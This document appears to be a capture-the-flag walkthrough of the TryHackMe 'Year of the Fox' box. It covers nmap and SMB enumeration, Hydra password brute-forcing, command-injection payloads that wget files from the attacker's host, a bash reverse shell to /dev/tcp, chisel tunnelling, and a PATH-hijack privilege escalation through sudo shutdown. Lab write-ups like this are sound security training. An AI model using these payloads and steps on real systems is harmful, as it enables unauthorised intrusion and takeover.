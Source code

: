 In this walkthrough, we'll go over a challenge (hard) level box called ***Year of the Fox*** on [TryHackMe](https://tryhackme.com/room/yotf) 

![Yof](yof.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.47.77 --open
```
Per the nmap result, it looks like port 80 is open:
```bash
Nmap scan report for 10.10.47.77
Host is up (0.27s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m38s, median: 0s
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2021-06-30T01:45:59+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-30T00:45:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 29 20:46:06 2021 -- 1 IP address (1 host up) scanned in 22.08 seconds
```
![YoF index](yof-http-basic-auth.png)

It looks like we are being asked to enter credentials. I also realize that SMB is also running on this server so let's enumerate SMB as well:
`enum4linux -a -o 10.10.242.71`
![YoF enum4linux1](yof-enum4linux1.png)
![YoF enum4linux2](yof-enum4linux2.png)

User | User Type
----- | ---------
fox | Local User
rascal | Local User

At this point, we can try to brute force the HTTP basic auth with Hydra `hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.242.71 http-get`:

![YoF HTTP Basicauth](yof-http-basicauth-bruteforce.png)

Username | Password
----------- | --------
rascal | jesussaves

We can login with the above credentials:
![YoF Authenticated Login](yof-authenticated-login.png)

However, there isn't much here and we can proxy the traffic via Burp after much enumeration, I use the below script to upload a test file:
`"\"; wget http://10.13.6.172:80/test.txt -O /tmp/t.txt; echo\""`
![YoF Command Injection](yof-command-injection-test.png)

This action is successful:

![YoF Python Server](yof-python-server.png)

Another comand injection script `\";echo d2hvYW1p | base64 -d | bash \n`
![YoF Command Injection](yof-command-injection-whoami.png)

We can now create a file called "revshell.sh" and insert the below payload for getting a reverse shell:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.13.6.172/5555 0>&1
```
Using the same method, we upload the file to "/tmp" directory `"\"; wget http://10.13.6.172:80/revshell.sh -O /tmp/revshell.sh; echo\""`

After that we start a listener with nc `nc -nlvp 5555`

We can then run the following command `"\"; bash /tmp/revshell.sh; echo\""`:
![YoF bash revshell](yof-bash-revshell.png)
![YoF initial foothold](yof-initial-foothold.png)

After running linpeas, I find a lot of rabbit holes, but one finding is interesting:
![YoF linpeas](yof-linpeas.png)

SSH is running locally so we can move chisel to the target machine and forward the port:
1. Edit proxychains.conf `socks 127.0.0.1 9999`:

	![YoF Proxchains Conf](yof-proxchains-conf.png)
2. Run the following on the local machine `./chisel_1.7.6_linux_amd64 server --socks5 -p 1111 --reverse`
	![YoF Chisel Server](yof-chisel-server.png)
3. Run the following on target machine `./chisel_1.7.6_linux_amd64 client 10.13.6.172:1111 R:9999:127.0.0.1:22`
	![YoF Chisel Client](yof-chisel-client.png)
  
We can then try to brute force the SSH service with Hydra `hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:9999 -v -f`:

![YoF Hydra](yof-hydra-ssh.png)

Username | Password
----------- | --------
fox | michelle1

We can now SSH into the server with above credentials `ssh -p 9999 fox@127.0.0.1`:

![YoF SSH](yof-ssh.png)

It looks like fox user could run "/usr/sbin/shutdown" as root without any passwords:
![YoF FOX Sudo](yof-fox-sudo-l.png)

We then transfer "/usr/sbin/shutdown" to my local Kali machine and inspected it with `strings shutdown`
![YoF Strings](yof-strings-shutdown.png)

Next we copy "/bin/bash" to "/tmp"
`cp /bin/bash /tmp/bash`

We can now run the following command `sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown` to get a root shell:
![YoF Root Shell](yof-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
